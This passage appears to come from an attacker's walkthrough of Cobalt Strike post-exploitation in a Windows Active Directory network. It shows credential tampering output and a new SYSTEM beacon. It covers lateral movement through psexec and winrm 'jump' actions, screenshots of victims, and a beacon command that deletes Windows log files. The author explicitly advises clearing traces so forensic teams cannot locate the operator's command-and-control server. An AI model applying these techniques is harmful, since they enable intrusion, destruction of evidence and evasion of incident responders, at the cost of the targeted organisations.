 ```
  \_ rc4_hmac_old      OK  
  \_ rc4_md4           OK  
  \_ rc4_hmac_nt_exp   OK  
  \_ rc4_hmac_old_exp  OK  
  \_ *Password replace @ 000001E8E1E15B48 (32) -> null
```

And we've got a new beacon session! If you view on **Event Logs** Tab

```
<REDACTED> *** initial beacon from СИСТЕМА *@172.16.0.77 (RDPSRV)
```

Thankfully Cobalt Strike can let us automate this by selecting the targets by going through **View** -> **Targets** then we select a
windows workstation with that IP address from `crackmapexec` that we've executed previously then press **Right-Click** -> **Jump** -> **psexec64**
or **winrm64** or **psexec_psh**. it'll automate the beacon commands for you which is convenient for UX (user experience).
So use this everytime when you perform active directory network.

Now here comes the fun part. Once you've kept hopping around the network you have take screenshots in order to understand
what's going on like think of it has a quick recon of the target is doing on his computer. If not then we move on to the next phase
for data exfilitration to look for files that stands out. Also before you type `exit` and found what you're looking for be sure to clear your
trace ahead of time since the forensic units or some tech savvy guy to look for traces and report your C2 server.

```
beacon> screenshot
[*] Tasked beacon to take screenshot
[+] host called home, sent: 199779 bytes
[+] received screenshot from СИСТЕМА (437kb)

beacon> shell del %windir%\*.log /a /s /q /f
[*] Tasked beacon to run: del %windir%\*.log /a /s /q /f
[+] host called home, sent: 61 bytes
[+] received output:
Удален файл - C:\Windows\DirectX.log
Удален файл - C:\Windows\DPINST.LOG
Удален файл - C:\Windows\DtcInstall.log
Удален файл - C:\Windows\lsasetup.log
Удален файл - C:\Windows\PFRO.log
Удален файл - C:\Windows\setupact.log
Удален файл - C:\Windows\setuperr.log
Удален файл - C:\Windows\WindowsUpdate.log
C:\Windows\appcompat\Programs\Amcache.hve.LOG1
..[snip]..

beacon> exit
[*] Tasked beacon to exit
[+] host called home, sent: 8 bytes
[+] beacon exit.
```
